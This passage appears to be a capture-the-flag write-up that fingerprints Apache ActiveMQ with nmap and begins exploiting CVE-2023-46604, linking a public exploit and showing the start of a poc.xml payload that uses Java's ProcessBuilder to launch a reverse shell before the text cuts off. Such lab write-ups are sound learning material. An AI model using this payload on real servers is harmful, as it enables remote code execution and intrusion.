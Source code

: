 ```bash
SF:0\0\0\0S\x18\xc0S\x01\0S\x1d\xc0M\x02\xa3\x11amqp:decode-error\xa17Conn
SF:ection\x20from\x20client\x20using\x20unsupported\x20AMQP\x20attempted")
SF:%r(DNSStatusRequestTCP,89,"AMQP\x03\x01\0\0AMQP\0\x01\0\0\0\0\0\x19\x02
SF:\0\0\0\0S\x10\xc0\x0c\x04\xa1\0@p\0\x02\0\0`\x7f\xff\0\0\0`\x02\0\0\0\0
SF:S\x18\xc0S\x01\0S\x1d\xc0M\x02\xa3\x11amqp:decode-error\xa17Connection\
SF:x20from\x20client\x20using\x20unsupported\x20AMQP\x20attempted")%r(SSLS
SF:essionReq,89,"AMQP\x03\x01\0\0AMQP\0\x01\0\0\0\0\0\x19\x02\0\0\0\0S\x10
SF:\xc0\x0c\x04\xa1\0@p\0\x02\0\0`\x7f\xff\0\0\0`\x02\0\0\0\0S\x18\xc0S\x0
SF:1\0S\x1d\xc0M\x02\xa3\x11amqp:decode-error\xa17Connection\x20from\x20cl
SF:ient\x20using\x20unsupported\x20AMQP\x20attempted")%r(TerminalServerCoo
SF:kie,89,"AMQP\x03\x01\0\0AMQP\0\x01\0\0\0\0\0\x19\x02\0\0\0\0S\x10\xc0\x
SF:0c\x04\xa1\0@p\0\x02\0\0`\x7f\xff\0\0\0`\x02\0\0\0\0S\x18\xc0S\x01\0S\x
SF:1d\xc0M\x02\xa3\x11amqp:decode-error\xa17Connection\x20from\x20client\x
SF:20using\x20unsupported\x20AMQP\x20attempted");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port61613-TCP:V=7.94SVN%I=7%D=11/15%Time=65549F55%P=x86_64-pc-linux-gnu
SF:%r(HELP4STOMP,27F,"ERROR\ncontent-type:text/plain\nmessage:Unknown\x20S
SF:TOMP\x20action:\x20HELP\n\norg\.apache\.activemq\.transport\.stomp\.Pro
SF:tocolException:\x20Unknown\x20STOMP\x20action:\x20HELP\n\tat\x20org\.ap
SF:ache\.activemq\.transport\.stomp\.ProtocolConverter\.onStompCommand\(Pr
SF:otocolConverter\.java:258\)\n\tat\x20org\.apache\.activemq\.transport\.
SF:stomp\.StompTransportFilter\.onCommand\(StompTransportFilter\.java:85\)
SF:\n\tat\x20org\.apache\.activemq\.transport\.TransportSupport\.doConsume
SF:\(TransportSupport\.java:83\)\n\tat\x20org\.apache\.activemq\.transport
SF:\.tcp\.TcpTransport\.doRun\(TcpTransport\.java:233\)\n\tat\x20org\.apac
SF:he\.activemq\.transport\.tcp\.TcpTransport\.run\(TcpTransport\.java:215
SF:\)\n\tat\x20java\.lang\.Thread\.run\(Thread\.java:750\)\n\0\n");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port61616-TCP:V=7.94SVN%I=7%D=11/15%Time=65549F55%P=x86_64-pc-linux-gnu
SF:%r(NULL,140,"\0\0\x01<\x01ActiveMQ\0\0\0\x0c\x01\0\0\x01\*\0\0\0\x0c\0\
SF:x11TcpNoDelayEnabled\x01\x01\0\x12SizePrefixDisabled\x01\0\0\tCacheSize
SF:\x05\0\0\x04\0\0\x0cProviderName\t\0\x08ActiveMQ\0\x11StackTraceEnabled
SF:\x01\x01\0\x0fPlatformDetails\t\0\x04Java\0\x0cCacheEnabled\x01\x01\0\x
SF:14TightEncodingEnabled\x01\x01\0\x0cMaxFrameSize\x06\0\0\0\0\x06@\0\0\0
SF:\x15MaxInactivityDuration\x06\0\0\0\0\0\0u0\0\x20MaxInactivityDurationI
SF:nitalDelay\x06\0\0\0\0\0\0'\x10\0\x0fProviderVersion\t\0\x075\.15\.15");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
We have a bunch of ports open, so i started googling them.

# User

by googling the ports 61613 61616 (also sudgested by nmap) we can see that the service running is Apache ActiveMQ<br>
recently a new CVE came out talking aout this service, maybe is that...<br>
So by googling `Apache ActiveMQ CVE` we can find this [article](https://socradar.io/critical-rce-vulnerability-in-apache-activemq-is-targeted-by-hellokitty-ransomware-cve-2023-46604/#:~:text=Is%20There%20a%20Proof%2Dof,the%20PoC%20exploit%20on%20GitHub.) This CVE take advantage of a xml request, so by crafting a particular payload we can leverage a server request to us serving a localserver with a maliciuous .xml file that can lead us to RCE.<br>
To ru the exploit i downloaded the GoLang exploit from [this GitHub repo](https://github.com/X1r0z/ActiveMQ-RCE).
then u need to edit the poc.xml file with your revshell:
```xml
<?xml version="1.0" encoding="UTF-8" ?>
    <beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="
     http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
        <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
            <constructor-arg>
```